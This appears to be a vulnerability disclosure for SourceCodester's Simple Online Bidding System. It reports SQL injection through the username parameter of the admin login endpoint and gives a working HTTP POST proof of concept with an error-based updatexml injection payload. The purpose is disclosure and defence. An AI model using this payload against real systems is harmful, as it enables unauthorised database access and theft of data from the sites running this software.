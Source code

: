 ## Sourcecoster simple online bidding system has sql injection vulnerability

## submitter
zhangMingMing

## supplier
https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

## Vulnerability file
/simple-online-bidding-system/bidding/admin/ajax.php?action=login

## Vulnerability analysis
<img width="830" alt="image" src="https://github.com/user-attachments/assets/a652291e-88db-4360-b8ad-b5cb273b7398">
<img width="1030" alt="image" src="https://github.com/user-attachments/assets/ea3cce0c-074e-4960-81f8-7f8e18d17244">


## describe
There is an unrestricted SQL injection attack in the simple online bidding system, and the controllable parameter is username. An attacker can obtain sensitive server information through this vulnerability.

POC
```
POST /simple-online-bidding-system/bidding/admin/ajax.php?action=login HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 88
Origin: http://localhost
Connection: close
Referer: http://localhost/simple-online-bidding-system/bidding/admin/login.php
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

username=admin'%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q&password=admin123
```

<img width="1089" alt="image" src="https://github.com/user-attachments/assets/38350edf-d000-4bbe-90c8-46da06c4d90a">







